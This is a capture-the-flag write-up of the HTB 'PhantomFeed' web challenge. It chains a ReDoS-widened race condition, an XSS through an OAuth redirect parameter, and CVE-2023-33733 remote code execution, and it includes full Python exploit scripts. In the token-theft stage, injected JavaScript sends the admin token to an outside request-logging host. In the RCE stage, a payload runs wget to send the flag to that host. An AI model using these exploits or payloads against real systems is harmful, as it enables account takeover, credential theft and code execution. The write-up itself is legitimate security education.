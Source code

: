```yaml
---
layout: writeup
parent: HTB UNI Brains & Bytes
grand_parent: 2023
author: tomvg
category: web
tags: 
title: "PhantomFeed"
subtitle: ""
write_date: 2023-12-10
last_edit_date:
# layout: mathjax # Uncomment this line to enable MathJax
---
```


*Note: Backup of challenge source code available at [web_phantomfeed.zip](/assets/challenge-sources/2023/htb-uni-brains-bytes/web_phantomfeed.zip).*

The PhantomFeed challenge consists of three different components: the marketplace frontend (served at localhost:5000), the marketplace backend (localhost:4000) and a feed of messages (localhost:3000). All of these services are also served by a reverse nginx proxy (localhost:1337) made available on different paths (`/`, `/backend` and `/phantomfeed` respectively).

Similarly, the challenge also consists of three main parts, although we only know that with the power of hindsight.

## Registering a user

At `/phantomfeed/register` we can find the form that is used for registration, which will create a user account that still needs to be verified.

```python
db_session = Database()
user_valid, user_id = db_session.create_user(username, password, email)

if not user_valid:
  return render_template("error.html", title="error", error="user exists"), 401

email_client = EmailClient(email)
verification_code = db_session.add_verification(user_id)
email_client.send_email(f"http://phantomfeed.htb/phantomfeed/confirm?verification_code={verification_code}")
```

However, when we look into the email client, we can see that the code for sending the verification code is actually commented out, so currently not working.

```python
def send_email(self, message):
    pass
    # try:
    #     self.server = smtplib.SMTP(self.smtp_server, self.smtp_port)
    #     self.server.starttls()  # Use TLS for security
    #     self.server.login(self.username, self.password)
```

Circling back a bit, we can see that when a new user is created, it is actually verified as the default value of the `verified` column of users is set to `True`:

```python
class Users(Base):
  __tablename__ = "users"
  id = Column(Integer, primary_key=True)
  verification_code = Column(String)
  verified = Column(Boolean, default=True)
  username = Column(String)
  password = Column(String)
  email = Column(String)
```

So this means that between the `create_user` call and the `add_verification` call, we have created a user who is actually verified. This means that we have a race condition that would eventually allow us to register and login. However, this interval is unfortunately too small to reliably and practically exploit. Hence, we should try to make the window of opportunity larger. When looking at the implementation of EmailClient, this allows us to do exactly that.

```python
class EmailClient:
  def __init__(self, to_email):
    email_verified = self.parse_email(to_email)

...

  def parse_email(self, email):
    pattern = r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@(([0-9a-zA-Z])+([-\w]*[0-9a-zA-Z])*\.)+[a-zA-Z]{2,9})$"
    try:
      match = re.match(pattern, email)

...
```

When [checking](https://devina.io/redos-checker) whether that regular expression is vulnerable to ReDoS, we can see that it is. This allows us to arbitrarily increase the time that the created user is verified. All we have to do is enter an email that takes a long time to parse. Something like `'A@0' + ('AA.0' * n) + 'AA'` does the job well (the higher `n`, the longer the regex takes to match).

Exploiting the ReDoS and race condition looks as follows:

```python
import random
import string
import time
import asyncio
import aiohttp

def random_user():
  return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))

BASE_URL = 'http://127.0.0.1:1337'  # change with remote IP
BASE_FEED_URL = BASE_URL + '/phantomfeed'

user = random_user()
email = 'A@0' + ('AA.0' * 10) + 'AA'
start = time.time()

async def register(user, email):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/register', data={"username": user, "password": "yyy", "email": email}) as response:
    await response.text()
    return

async def login(user):
  async with aiohttp.ClientSession() as session, session.post(BASE_FEED_URL + '/login', data={"username": user, "password": "yyy"}, allow_redirects=False) as response:
    text = await response.text()
    if 'Set-Cookie' in response.headers:
      print(response.headers.get('Set-Cookie'))
    return text

async def main():
  t = []
  t.append(asyncio.create_task(register(user, email)))
  for x in range(100):
    t.append(asyncio.create_task(login(user)))
  await asyncio.gather(*t)

asyncio.run(main())
```

If successful (in my experience, most of the times) it will spit out the cookies for a registered user.

## Stealing administrator token

Once we are able to login, we can access quite some more functionality. One example is adding new messages to the feed, that are then visited by the administrator account (Selenium webdriver, with token of administrator set as the `token` cookie).

After a lot of searching, and trying different ways to make use of the cookie, I found that the goal might be to steal the token. We can easily do that if we have an XSS (as the `HttpOnly` attribute is not set on the cookie). So... let's look for an XSS!

Trying all different endpoints, I noticed that the JSON response in `/phantomfeed/oauth2/token` was served with `text/html` as content type. And... this contained the `redirect_url`, which we can fully control, and wasn't validated.

So to exploit this we can do the following steps:

1. Create an OAuth authorization code for our user (by calling `/phantomfeed/oauth2/code`), and set the `redirect_url` to `<script src=//example.com/exploit.js></script>`.
2. Use that code in the URL for `/phantomfeed/oauth2/token` endpoint
3. Send that URL to the administrator bot
4. In `exploit.js` get the token from the administrator, using another call to `/phantomfeed/oauth2/token` (for which we need another valid token)
5. Leak the admin token to ourselves, and PROFIT

The complete exploit for this second phase looks as follows:

{% raw %}
```python
import requests
from base64 import b64encode

HOST = "127.0.0.1:1337"  # replace with remote host
BASE_URL = 'http://' + HOST
BASE_FEED_URL = BASE_URL + '/phantomfeed'

s = requests.session()
redirect_url = '<script/src=//foo.drud.us/htb-exploit.js></script>'
token_cookie = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDA2MiwidXNlcl9pZCI6MjcsInVzZXJuYW1lIjoiaUxKSkxaaGxSMlQwaVVpcCIsInVzZXJfdHlwZSI6InVzZXIifQ.vEvOFjMgvr6atU6IhT1AWjSjrBgxqPj3l2S0oTWyx1ZqlvUejG6Li7FFKtAtF5pvv5jf4TVN25KCE2gZWoJRvE702Ci2Ov0v6RYrwGOYQcUpNEzQZ5l7ueYEVRT8bWUuC3n0h_LNUmmiQHR53N-3IUE9xLKcqSCYw4nDJb-y24gU6P2Vwp4o0W4VbSnDNsBgTalSPbGIEcoo2DO5aupnVtQGCsIBaJ0fqRvDhwhY9zd_VL-mZ3PbVODdyi8efMEVsW6MR_gEPatWIciVfaN92xcty59sOneVGzyYsr6dvVuuiHrAch4VfqizuvO0_OZxrKTh5-vIbSPR1MRr8lTlng"  # replace with token obtained in first step
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')
r = s.get(BASE_FEED_URL + "/oauth2/code?client_id=phantom-market&redirect_url=" + redirect_url, allow_redirects=False, cookies={"token": token_cookie})
code2 = r.headers.get('Location').replace(redirect_url + '?authorization_code=', '')


js = f'''
(async () => {{
  let resp = await fetch(`http://127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=${{atob('{b64encode(redirect_url.encode()).decode('utf-8')}')}}&authorization_code={code2}`);
  let json = await resp.json();
  await fetch(`http://muf9e4po.requestrepo.com/leak?${{json["access_token"]}}`);
}})();
'''

print('link to post to feed: ', "@127.0.0.1:1337/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=" + redirect_url + "&authorization_code=" + code)
print('JS to host in exploit.js\n=============================================')
print(js)
```
{% endraw %}

## RCE to get the flag

One functionality that only administrators can do, is generate PDFs of the orders. The PDF is generated based on an HTML, for which the `color` parameter can be controlled, and is used in the template as follows:

{% raw %}
```html
<font color="{{ color }}">
  Orders:
</font>
```
{% endraw %}

Looking for known exploits for the HTML2PDF library that was used, we quickly find CVE-2023-33733, that is an exploit for when the `color` attribute of a `font` is abused (surprise, surprise). Simply copy-pasting and adjusting the executed code of [the PoC for the CVE](https://github.com/c53elyas/CVE-2023-33733) did the trick.

The final exploit looks as follows:

```python
import requests

HOST = "127.0.0.1:1337"  # replace with remost host
BASE_URL = 'http://' + HOST
BASE_BACKEND_URL = BASE_URL + '/backend'

admin_token = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJwaGFudG9tZmVlZC1hdXRoLXNlcnZlciIsImV4cCI6MTcwMjIyMDQxNCwidXNlcl9pZCI6MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl90eXBlIjoiYWRtaW5pc3RyYXRvciJ9.nbn6qxsdKQBFtx9m-XQVy8wQlXZq-eSixcoi9PX7EZzRRecHDd2jKq2gElrCBWsmlAy9lZUNbV5BkiKlnfOMylvizqF3D_XbpFP-ExCDnnKcwnJbWA9DslhdsFLVFDuItEosHnQOE37lzs9Q5s1SakD3-PXU1S3vsI8A7kPn5jqxs6TGx0QwOfFJoL7cA8hVR71ZjDWrBtini2bBmOeTyVdEzk7nnrRbWTfO-Hvdp9gW11saDrktLCVuOyDPmWFLP6H9D5LfXuEfzcemd1xtCRc-2x5HwV-W7CmiZ6n5cUgfek7AenUoSC88xkVaicAzbQTShZ6eIT1UbqD2p1IxIQ"  # replace with token obtained in second phase
r = requests.post(BASE_BACKEND_URL + '/orders/html',
                  data={"color": "[[[getattr(pow, Word('__globals__'))['os'].system('wget http://muf9e4po.requestrepo.com/$(cat /flag*)') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"},
                  headers={"Authorization": f"Bearer {admin_token}"})
```

While listening for requests, we soon see the flag appearing; `HTB{r4c3_2_rc3_04uth2_j4ck3d!}`. Yay!

All in all, great challenge - nice that it was built in different phases!
